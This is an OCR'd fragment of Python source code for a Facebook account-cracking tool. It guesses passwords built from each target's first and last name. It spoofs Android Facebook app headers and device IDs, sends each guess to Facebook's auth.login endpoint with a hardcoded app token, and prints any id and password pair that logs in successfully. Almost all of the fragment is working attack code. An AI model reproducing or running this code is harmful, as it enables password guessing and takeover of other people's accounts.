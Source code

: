                                 ln = fn
                        for pw in passlist:
                                pas = pw.replace('first',fn.lower()).replace('First',fn).replace('last',ln.lower()).replace('Last',ln).replace('Name',names).replace('name',names.lower())
                                application_version = str(random.randint(11,77))+'.0.0.'+str(random.randrange(9,49))+str(random.randint(11,77))
                                application_version_code=str(random.randint(000000000,999999999))
                                fbs=random.choice(fbks)
                                gtt=random.choice(awminfinix)
                                accessToken="350685531728|62f8ce9f74b12f84c123cc23437a4a32"
                                awmsim = random.choice(awmsim1)
                                session = requests.Session()
                                ua = f'[FBAN/FB4A;FBAV/{application_version};FBBV/{application_version_code};FBDM/'+'{density=3.75,width=1080,height=2400};FBLC/en_NZ;FBRV/str(random.randint(000000000 ,999999999));FBCR/Etisalat Af;FBMF/samsung;FBBD/samsung;FBPN/com.facebook.katana;FBDV/CPH2209;FBSV/10;FBOP/19;FBCA/armeabi-v7a:armeabi;]'
                                device_id = str(uuid.uuid4())
                                adid = str(uuid.uuid4())
                                data = {
 
                                'adid':adid,
 
                                'format':'json',
 
                                'device_id':device_id,
 
                                'email':ids,
 
                                'password':pas,
 
                                'generate_analytics_claims':'1',
 
                                'credentials_type':'password',
 
                                'source':'login',
 
                                'error_detail_type':'button_with_disabled',
 
                                'enroll_misauth':'false',
 
                                'generate_session_cookies':'1',
 
                                'generate_machine_id':'1',
 
                                'fb_api_req_friendly_name':'authenticate',
 
                        }
                                head ={
                    'x-fb-connection-quality':'EXCELLENT',
                    'x-fb-connection-type':'MOBILE.LTE',
                    'user-agent':ua,
                    'x-tigon-is-retry':'False',
                    'x-fb-http-engine':'Liger',
                    'x-fb-client-ip':'True',
                    'x-fb-server-cluster':'True',
                    'x-fb-device-group':str(random.randint(2000,4000)),
                    "X-FB-Connection-Bandwidth": str(random.randint(2000000.0,4000000.0)),
                    'x-fb-sim-hni':str(random.randint(2e4,4e4)),
                    'x-fb-net-hni':str(random.randint(2e4,4e4)),
                    'x-fb-rmd':'cached=0;state=NO_MATCH',
                    'x-fb-request-analytics-tags':'unknown',
                    'authorization':'OAuth 350685531728|62f8ce9f74b12f84c123cc23437a4a32',
                    'content-type':'application/x-www-form-urlencoded',
                    'x-fb-friendly-name':'authenticate'
                }
                                url = 'https://b-api.facebook.com/method/auth.login'
                                po = requests.post(url,data=data,headers=head,allow_redirects=False).text
                                q = json.loads(po)
                                if 'session_key' in q:
                                        print('\r\r\033[1;32m [JARED-OK] '+ids+' | '+pas+'\033[1;97m')
